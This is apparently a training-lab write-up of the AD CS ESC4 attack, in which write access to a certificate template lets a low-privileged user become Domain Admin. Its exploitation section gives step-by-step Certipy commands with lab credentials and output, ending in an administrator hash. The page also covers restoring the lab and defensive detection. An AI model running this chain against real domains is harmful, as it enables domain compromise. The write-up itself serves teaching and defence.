

# ESC4 — Vulnerable Template Access Control

**Impact:** low-priv user with write access to a template → **Domain Admin**
**Lab status:** ✅ verified end-to-end

---

## Concept

ESC1–ESC3 abuse templates that are *already* misconfigured. ESC4 is different: the
template starts **benign**, but a low-privileged principal holds **write access**
(`GenericAll`, `WriteDacl`, `WriteOwner`, or `WriteProperty`) over the template
**object** in AD. The attacker simply **rewrites the template into an ESC1** —
flips on `ENROLLEE_SUPPLIES_SUBJECT` — then enrols.

The vulnerability is the **ACL**, not the configuration. This is why the lab's
`ESC4` template is a normal client-auth template: the point is that the attacker
weaponizes a working template, not that they repair a broken one.



---

## Template configuration in the lab

| Attribute | Value |
|-----------|-------|
| Name | `ESC4` |
| Starting state | Benign client-auth template (subject from AD) |
| Dangerous ACE | `ADESCRTL.LAB\LabUsers` → **GenericAll** over the template object |

Confirm with:

```bash
certipy find -u lowpriv@adescrtl.lab -p 'Lab12345!' -dc-ip 10.0.0.5 -vulnerable -stdout
# ESC4 : 'ADESCRTL.LAB\\LabUsers' has dangerous permissions
```

---

## Exploitation

### Step 1 — rewrite the template into an ESC1

Certipy's `template` command overwrites the configuration with a known-vulnerable
default (enrollee-supplies-subject, Client Auth, low-priv enroll):

```bash
certipy template -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -template ESC4 -write-default-configuration
```

```
[*]     msPKI-Certificate-Name-Flag: 1        # ENROLLEE_SUPPLIES_SUBJECT now set
[*] Successfully updated 'ESC4'
```

### Step 2 — enroll as Administrator (now that it behaves like ESC1)

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC4 \
  -upn administrator@adescrtl.lab \
  -sid 'S-1-5-21-3743172807-389476742-3060699965-500' -out esc4pwn
```

### Step 3 — authenticate

```bash
certipy auth -pfx esc4pwn.pfx -dc-ip 10.0.0.5
```

```
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

> **Restore step.** This exercise leaves the `ESC4` template modified. Re-run the
> deploy's `Phase2` on the DC (`.\Deploy-ADCSLab.ps1 -Phase Phase2` then
> `Restart-Service certsvc`) to reset it to benign for the next student. Certipy
> can also save/restore configuration with `-save-old` / `-configuration`.

---

## Detection & defence

- Audit **template DACLs**. No non-admin principal should hold write access over a
  certificate template. `certipy find` and `Get-Acl "AD:CN=<tpl>,CN=Certificate
  Templates,…"` both reveal this.
- Alert on **template modification** — AD object change auditing on the Certificate
  Templates container, and CA event correlation.
- Principle of least privilege on the whole `CN=Public Key Services` subtree.
